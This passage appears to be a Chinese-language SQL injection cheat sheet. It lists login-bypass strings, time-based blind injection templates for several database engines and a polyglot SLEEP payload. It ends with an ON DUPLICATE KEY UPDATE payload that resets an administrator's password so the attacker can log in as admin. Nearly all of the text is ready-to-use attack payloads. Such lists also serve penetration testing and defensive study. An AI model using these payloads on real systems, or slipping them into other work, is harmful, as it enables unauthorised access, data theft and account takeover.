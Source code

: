 ```
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```

## 基于时间的
```
SQLite : AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))      comment:   -- /**/
MySQL/MariaDB : AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1       comment: # -- /*!30100 MySQL code*/
MySQL/MariaDB : RLIKE SLEEP([SLEEPTIME])                                                  comment: # -- /*!30100 MySQL code*/
MySQL/MariaDB : OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))                            comment: # -- /*!30100 MySQL code*/
Oracle : AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])                 comment:   -- /**/
PostGreSQL : AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))                  comment:   -- /**/  
PostGreSQL : AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))    comment:   -- /**/
SQL Server : IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'                              comment:   --
```

## Polyglot 注入 (多语境)
```
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## 插入语句 - ON DUPLICATE KEY UPDATE
ON DUPLICATE KEY UPDATE 关键词是用来告诉MySQL当应用程序试图插入表中已经存在的行时该怎么办。我们可以用它来改变管理员密码：
```
注入 使用 payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

语句会看起来像这样:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

这个语句将会为用户 “attacker_dummy@example.com”插入一行. 它也将为用户 “admin@example.com”插入一行.
因为这行已经存在, 关键次 ON DUPLICATE KEY UPDATE 告诉 MySQL 将已经存在的`密码`列更新为"bcrypt_hash_of_qwerty".

这之后, 我们就可以简单的使用用户名“admin@example.com” 和密码“qwerty”来验证啦!
```
